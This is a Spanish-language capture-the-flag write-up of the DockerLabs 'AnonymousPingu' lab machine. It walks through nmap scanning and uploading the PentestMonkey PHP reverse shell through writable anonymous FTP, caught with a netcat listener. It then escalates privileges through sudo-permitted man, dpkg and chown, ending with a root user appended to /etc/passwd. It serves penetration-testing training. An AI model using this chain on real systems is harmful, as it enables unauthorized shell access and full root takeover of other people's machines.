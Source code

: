 # Máquina AnonymousPingu

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0            7816 Nov 25  2019 about.html
| -rw-r--r--    1 0        0            8102 Nov 25  2019 contact.html
| drwxr-xr-x    1 0        0             118 Jan 01  1970 css
| drwxr-xr-x    1 0        0               0 Apr 28 18:28 heustonn-html
| drwxr-xr-x    1 0        0             574 Oct 23  2019 images
| -rw-r--r--    1 0        0           20162 Apr 28 18:32 index.html
| drwxr-xr-x    1 0        0              62 Oct 23  2019 js
| -rw-r--r--    1 0        0            9808 Nov 25  2019 service.html
|_drwxrwxrwx    1 33       33              0 Apr 28 21:08 upload [NSE: writeable]
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Mantenimiento
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Vemos mucha información por parte del servicio ftp, donde está habilitado el user **anonymous**.
Observamos que toda la info que nos reporta en el servicio **ftp** son los archivos fuente de la **web** que corre por el puerto 80.
Además, comprobamos que el directorio **/upload** dentro de la web, tiene capacidad de **directory list**, de forma que será fácil la intrusión.
Podremos subir una **reverse shell** y acceder a ella desde la web para ganar acceso.
En mi caso la subiré al directorio **/upload**, pero quizás no sea necesario que sea subida ahí.

Subiré la reverse shell típica de **PentestMonkey** -> [Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```shell
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
mv php-reverse-shell.php shell.php
```

(Acuérdate de cambiar la IP a tu IP correspondiente y el puerto que quieras)

![Pasted image 20240429005132](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/45802db3-6d7b-4747-9dcb-9d0401a43b09)

```shell
ftp 172.17.0.2
-> anonymous
cd upload/
put shell.php
```

Nos ponemos en escucha con **netcat**:

```shell
sudo nc -nlvp 443
```

Accedemos a la **reverse shell** que ya debería estar alojada en la web.

```
http://172.17.0.2/upload/shell.php
```

Hemos ganado acceso a la máquina !
Aplicamos como siempre el tratamiento de la **tty**

------------
## Escalada de privilegios

Si hacemos **sudo -l** vemos que podemos ejecutar **man** como el usuario **pingu**. Podemos abusar de este para migrar a ese user.

```shell
sudo -l
--------------------------------
User www-data may run the following commands on 13d79de146ba:
    (pingu) NOPASSWD: /usr/bin/man
```

```shell
sudo -u pingu man man
!/bin/bash
whoami
------------------------
pingu
```

Hemos salido del contexto de **man** y migramos al user **pingu**.

Hacemos otra vez **sudo -l**:

```shell
sudo -l
--------------------------------
User pingu may run the following commands on 4af23574d013:
    (gladys) NOPASSWD: /usr/bin/nmap
    (gladys) NOPASSWD: /usr/bin/dpkg
```

Podemos ejecutar **nmap** y **dpkg** como el user **gladys**.
Podemos repetir un proceso muy similar al de **man** con **dpkg**:

```shell
sudo -u gladys dpkg -l
!/bin/bash
```

Migramos al user **gladys**.
Hacemos otra vez **sudo -l**:

```shell
sudo -l
--------------------------------
User gladys may run the following commands on 4af23574d013:
    (root) NOPASSWD: /usr/bin/chown
```

Podemos ejecutar **chown** como **root**
Cambiamos el dueño del **/etc/passwd**:

```shell
LFILE=/etc/passwd 
sudo chown $(id -un):$(id -gn) $LFILE
ls -l /etc/passwd
--------------------------------
-rw-r--r-- 1 gladys gladys 1292 Apr 28 21:08 /etc/passwd
```

Ahora le pertenece a **gladys**.
Probamos a quitar la "**x**" que corresponde a la contraseña del usuario **root** y si la quitamos es posible que nos deje acceder sin contraseña.
Como la máquina no tiene ningún editor de texto instalado, lo que haremos será crear un nuevo usuarios con los privilegios de **root** y añadirlo al **/etc/passwd**:

```shell
LFILE=/etc/passwd
sudo chown $(id -un):$(id -gn) $LFILE
openssl passwd hola123
echo 'newroot:$1$EBhVbkUV$zW3uLFiknxfdzUV5OjQZ40:0:0::/home/newroot:/bin/bash' >> /etc/passwd
su newroot
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximo !

